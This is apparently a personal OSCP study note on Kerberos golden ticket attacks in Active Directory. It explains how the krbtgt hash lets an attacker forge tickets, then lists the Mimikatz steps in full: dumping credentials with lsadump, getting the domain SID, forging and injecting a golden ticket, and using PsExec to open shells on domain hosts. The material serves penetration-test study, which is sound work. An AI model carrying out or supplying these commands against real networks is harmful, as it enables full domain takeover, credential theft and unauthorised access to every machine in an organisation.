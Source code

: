 ```yaml
---
{"dg-publish":true,"permalink":"/OSCP/o. Active Directory Movement/7. Golden Tickets/"}
---
```


---------
- TGTs are encrypted using the hash of the krbtgt user.
- If the hash of krbtgt could be acquired one could create custom TGTs, a.k.a. golden tickets.
- Golden tickets gives permission to access the entire domain's resources
- E.g. one could create a ticket stating that any user is a member of the Domain Admins group.
- To get the krbtgt hash a Domain Admin user is required, or if the domain controller itself is compromised.
- The ticket itself can be created from anywhere without privileges.
------------
### Generate Golden Ticket Locally Using Mimikatz:
1. Get hold of krbtgt hash, e.g. by compromising DC and dumping NTLM with "lsadump::lsa /patch".
2. Enumerate domain SID:
```
whoami /user
```
- Result: corp\jeff ==S-1-5-21-1987370270-658905905-1781884369==-1105
3. Purge all existing kerberos tickets in Mimikatz:
```
kerberos::purge
```
4. Generate ticket:
```
kerberos::golden /user:<golden-ticket-username> /domain:<domain> /sid:<domain-sid> /krbtgt:<krbtgt-hash> /ptt
```
5. Launch new command prompt:
```
misc::cmd
```
6. Use PsExec to launch shells to arbitrary domain machines:
```
PsExec.exe \\<host> cmd.exe
```
- Important to use hostname instead of ip since we want to authenticate with kerberos.



